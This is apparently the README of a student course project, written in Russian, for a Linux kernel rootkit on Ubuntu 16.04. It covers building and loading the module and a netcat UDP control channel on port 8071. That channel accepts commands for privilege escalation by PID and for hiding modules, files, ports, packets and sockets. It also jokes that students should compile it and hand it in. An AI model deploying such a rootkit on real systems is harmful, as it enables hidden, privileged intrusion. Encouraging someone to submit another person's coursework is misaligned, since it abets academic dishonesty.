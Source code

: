 # Курсовой проект по ОС, на тему: "Модуль ядра rootkit."
Компилим, не выёживаемся, сдаём :^)
## Linux 
Качаем нужную версию, на всякий х32 оставлю, но работать не должно (вроде).
| Kernel |         x86         |        x86-64        |
|:-------------:|:-------------------:|:--------------------:|
|     4.4.0     | Ubuntu 16.04 i386 (647M) [[torrent]](http://old-releases.ubuntu.com/releases/16.04.0/ubuntu-16.04-server-i386.iso.torrent) [[iso]](http://old-releases.ubuntu.com/releases/16.04.0/ubuntu-16.04-server-i386.iso) |  Ubuntu 16.04 amd64 (655M) [[torrent]](http://old-releases.ubuntu.com/releases/16.04.0/ubuntu-16.04-server-amd64.iso.torrent) [[iso]](http://old-releases.ubuntu.com/releases/16.04.0/ubuntu-16.04-server-amd64.iso) |

### Далее на всякий:
```sh
sudo apt-get update
sudo apt install linux-headers-$(uname -r)
```
### Building

```sh
make
```

## Use

Load rootkit:

```sh
make load
```
Unload rootkit:

```sh
make unload
```
**Usage**
После `make load` вводим в терминале, а далее сюда же вписываем команды.
```sh
nc -4 -u localhost 8071
```
8071 задан как порт по умолчанию, при сильном желании, его можно сменить, на строчке 28 `UDP_PORT`, в файле `include.h`.
**Смена приритета по PID**
Проверить PID можно например `top`
```sh
escalate-PID
deescalate-PID
```
**Скрытие модулей**
```sh
hidemod
showmod
```
**Скрытие файлов определённого типа (должны начинаться на rootkit_ или .rootkit_, но во 2м варианте бывают проблемы!)**
```sh
hidefile
showfile
```

Остальное вроде всё нативно. Также есть функции, которые не вошли в РПЗ (по итогу не показал): 
- Скрытие портов (*usage* `hideport-12345` | `showport-12345`)
- Скрытие пакетов (можно чекнуть WireShark'ом)
```sh
hidepacket-udp4-192.168.2.141
hidepacket-udp6-0123:4567:89ab:cdef:0123:4567:89ab:cdef
hidepacket-tcp6-::1
--------------------
showpacket-udp6-0123:4567:89ab:cdef:0123:4567:89ab:cdef
showpacket-tcp6-::1
```
- Скрытие сокетов 
```sh
hidesocket-udp4-12345
hidesocket-udp6-12346
hidesocket-tcp4-12347
hidesocket-tcp6-12348
---------------------
showsocket-udp4-12345
showsocket-udp6-12346
showsocket-tcp4-12347
showsocket-tcp6-12348

```
